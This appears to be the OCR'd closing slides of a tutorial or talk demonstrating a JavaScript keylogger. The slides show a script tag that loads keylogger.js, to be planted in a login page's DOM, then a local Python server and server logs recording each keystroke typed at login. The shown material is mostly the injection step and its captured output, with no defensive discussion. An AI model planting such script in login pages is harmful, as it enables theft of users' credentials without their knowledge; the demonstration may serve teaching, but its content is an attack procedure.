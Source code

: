 	!html
	<script type='text/javascript' src='keylogger.js'></script>

Place that somewhere in the DOM of the login page, and make sure the keylogger.js file is in the accounts directory

---

# Run the server

in the www.company.com directory run:

	!bash
	python -m SimpleHTTPServer

visit localhost:8000 and login

---

# Results

	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=h HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:01] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=e HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:01] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=o HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=w HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=o HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=r HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=d HTTP/1.1" 404 -

---

#Questions?
